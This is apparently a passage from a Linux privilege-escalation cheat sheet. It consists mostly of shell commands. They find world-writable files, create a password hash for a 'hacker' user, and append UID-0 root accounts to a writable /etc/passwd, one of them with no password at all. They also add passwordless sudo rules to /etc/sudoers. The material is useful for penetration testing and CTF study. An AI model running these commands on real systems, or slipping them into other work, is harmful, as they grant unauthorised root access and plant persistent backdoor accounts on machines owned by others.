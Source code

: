 ## Interesting Files writable
List world writable files on the system.
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
**Writable /etc/passwd**

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

**Writable /etc/sudoers**

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
